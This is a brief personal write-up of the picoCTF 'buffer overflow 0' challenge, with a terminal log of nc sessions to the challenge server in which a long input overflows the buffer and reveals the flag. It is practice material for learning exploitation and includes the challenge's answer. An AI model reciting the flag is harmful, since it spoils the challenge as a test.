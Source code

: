 # Binary exploitation 
## Buffer overflow 0 
So i got very lucky with this one.
The source and the program would not open regardless of what I did. To my computer it simply did not exist. So i played around with the program trying to figure out what it was meant to do.
It would exit regardless of what input i gave. The name of the challenge was buffer overflow 0 so the thought process was "What if my input was just very long" cause there had to be a max limit to the input.
Turns out i was right.
I did look at the write up of this online to check the what the source and program were.
```
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023nc saturn.picoctf.net 60023
nc: port range not valid
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: a 
The program will exit now
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: 3
The program will exit now
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: 1kdohuygf73fb930761
The program will exit now
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: 1983712ehniqubdqtwdbq807631dfqeg01 
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
